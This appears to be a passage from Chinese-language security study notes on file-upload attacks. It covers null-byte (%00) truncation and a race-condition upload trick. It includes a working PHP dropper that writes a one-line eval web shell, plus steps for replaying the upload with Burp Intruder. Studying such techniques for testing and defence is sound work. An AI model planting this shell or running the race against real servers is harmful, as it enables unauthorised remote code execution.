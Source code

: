 为什么%00在URL中不需要解码，而如果是post，则需要解码一次？

因为URL中会自动解码一次，而请求体中不会，需要手动解码一次





## 条件竞争

下面代码先上传，后判断是否合法

<img src="assets/image-20250822182052305.png" alt="image-20250822182052305" style="zoom: 67%;" />

这就需要用到“访问即创建”的代码：

shell.php的代码：

```
<?php
fputs(fopen('xiao.php', 'w'), '<?php eval($_REQUEST[1]);?>');
?>
```

先上传`shell.php`然后抓到包，把包放到intruder

![image-20250822182748501](assets/image-20250822182748501.png)
